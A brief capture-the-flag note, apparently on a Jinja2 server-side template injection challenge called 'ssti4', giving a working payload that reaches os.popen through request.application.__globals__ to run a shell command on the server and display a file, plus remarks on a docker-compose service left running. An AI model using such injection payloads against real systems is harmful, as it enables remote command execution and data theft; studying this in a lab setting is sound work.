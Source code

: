 # ssti4

## What it is

Same as sst3.

https://stackoverflow.com/a/12341532/12864941
The eviltree.py file is weird it contains html, it can be displayed on the website with:
```py
{{request.application.__globals__.__builtins__.__import__('os').popen('cat eviltree.py').read()|safe}}
```
It shows some github code from (eviltree)[https://github.com/t3l3machus/eviltree]\
Not sure if it is part of the challenge.

There is a docker-compose (see docker-compose.yml) that talks about a service that should be down but isn't.\
Hacen't found a way to access it yet.
